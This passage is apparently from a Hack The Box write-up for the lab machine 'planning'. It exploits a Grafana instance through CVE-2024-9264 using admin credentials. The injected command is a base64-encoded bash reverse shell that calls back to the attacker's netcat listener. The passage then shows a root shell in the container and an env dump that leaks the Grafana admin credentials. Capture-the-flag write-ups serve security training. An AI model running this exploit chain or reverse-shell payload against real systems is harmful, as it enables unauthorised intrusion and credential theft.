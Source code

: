 Run the Grafana PoC with the encoded command (the PoC will decode and execute it on the target):

```
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r \
-c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Ny80NDQ0IDA+JjE= | base64 -d | bash" \
http://grafana.planning.htb/
```

```
┌──(venv)─(kali㉿kali)-[~/htb-machine/planning/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r \
-c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Ny80NDQ0IDA+JjE= | base64 -d | bash" \
http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Ny80NDQ0IDA+JjE= | base64
-d | bash

```

Interactive shell on the target (Docker container):

```
┌──(kali㉿kali)-[~/htb-machine/planning/CVE-2024-9264]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.97] from (UNKNOWN) [10.10.11.68] 45014
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# ls
ls
LICENSE
bin
conf
public
root@7ce659d667d7:~/conf# ls
ls
defaults.ini
ldap.toml
ldap_multiple.toml
provisioning
sample.ini
root@7ce659d667d7:~/conf# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana/conf
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/usr/share/grafana
root@7ce659d667d7:~/conf# 
```